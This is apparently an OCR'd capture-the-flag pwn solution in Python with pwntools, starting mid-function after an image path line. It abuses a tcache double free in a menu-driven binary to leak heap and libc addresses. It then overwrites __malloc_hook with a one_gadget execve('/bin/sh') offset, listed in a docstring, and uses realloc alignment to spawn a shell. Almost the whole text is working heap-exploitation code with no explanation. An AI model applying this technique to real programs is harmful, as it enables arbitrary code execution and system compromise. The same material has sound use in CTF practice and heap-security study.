 ```python
	p.send(str(num))

def free(num):
	p.recvuntil('choice')	
	p.sendline('4')
	p.recvuntil('idx')
	p.sendline(str(num))
	

add(0x80)#0


free(0)
free(0)

add(0x80)#1

show(0)

addr=u64(p.recv(6).ljust(8,'\x00'))
log.info(hex((addr)))
log.info('tcache struct:'+hex((addr-0x250)))
edit(1,p64(addr-0x250))
add(0x80)#2
add(0x80)#3
gdb.attach(p)
edit(3,p8(7)*0x30)

free(3)

show(3)

addr=u64(p.recv(6).ljust(8,'\x00'))-88
log.info('main_arena:'+hex((addr)))
base=addr-0x3afc48
log.info('base:'+hex((base)))
malloc=base+e.symbols['__malloc_hook']
log.info('malloc:'+hex((malloc)))
#gdb.attach(p)
add(0x80)#4
edit(4,'b'*0x48+p64(malloc-0x20+0xd))
#gdb.attach(p)

"""
0x41612 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x41666 execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xdeed2 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL



"""
add(0x60)#5
edit(5,p8(0)*3+p64(0)+p64(0x41666+base)+p64(base+e.symbols['__libc_realloc']+0xa))
#gdb.attach(p)
add(0x40)
```